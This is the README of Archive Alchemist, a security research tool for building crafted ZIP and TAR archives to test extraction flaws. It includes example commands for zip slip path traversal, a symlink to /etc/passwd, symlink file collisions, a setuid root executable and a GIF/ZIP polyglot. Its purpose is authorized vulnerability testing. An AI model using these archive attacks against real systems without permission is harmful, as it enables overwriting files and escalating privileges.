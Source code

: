 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities.
```
                            _     _           
                           | |   (_)                 .---.          
              __ _ _ __ ___| |__  ___   _____       _\___/_ 
             / _` | '__/ __| '_ \| \ \ / / _ \       )\_/(
            | (_| | | | (__| | | | |\ V /  __/      /     \
             \__,_|_|  \___|_| |_|_| \_/ \___|     /       \             _      _                    _     _ 
                                                  /         \           | |    | |                  (_)   | |  
                                                 /~~~~~~~~~~~\      __ _| | ___| |__   ___ _ __ ___  _ ___| |_ 
                                                /    tar   gz \    / _` | |/ __| '_ \ / _ \ '_ ` _ \| / __| __|
                                               ( zip    bz2    )  | (_| | | (__| | | |  __/ | | | | | \__ \ |_
                                                `-------------'    \__,_|_|\___|_| |_|\___|_| |_| |_|_|___/\__| 
```
<!-- ASCII art by jgs from https://ascii.co.uk/art/science -->

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify
- Multiple helper commands: extract, list, read
- Create polyglot files (prepend archive with data + adjust headers)

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

See [Documentation](docs/index.md)


### Tips

#### Suggested working directory setup

The most convenient way to test multiple payloads/tests for an archive is to use a local working directory and the `replace` command with `--content-directory` flag to "sync" the local directory to the archive:

1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Make changes to file(s) in `workingdir/`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Test using `target_poc.zip`
5. GOTO #2

#### Blind detect symlink support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/file2.json`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Change `bla/file.json` to a symlink to `bla/file2.json`: `./archive-alchemist.py -f target_poc.zip replace --symlink file2.json "bla/file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports symlinks!

#### Blind detect path traversal support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/blu/file.json`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Add `bla/blu/../file.json` to the archive: `./archive-alchemist.py -f target_poc.zip add --content-file "workingdir/bla/blu/file.json" "bla/blu/../file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports path traversal! (Although there might be additional checks to make sure that you dont traverse outside of the target directory)

#### Blind detect absolute path support

I havent really come up with a good generic way to test for this, but you could try changing `some/file.txt` to `/proc/self/cwd/some/file.txt`, and see if that works. Relying on proc filesystem and hoping that its cwd is the same as the extraction directory is not ideal, but its something.

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

#### Polyglot File

```bash
# Create a file that's a valid ZIP and starts with GIF magic bytes
./archive-alchemist.py -f polyglot.gif add payload.txt --content "hello there"
./archive-alchemist.py -f polyglot.gif polyglot --content "GIF89aI am totally a GIF file"
```

## Security Considerations

This tool is designed for security research and vulnerability testing. Using it against systems without explicit permission is illegal and unethical.
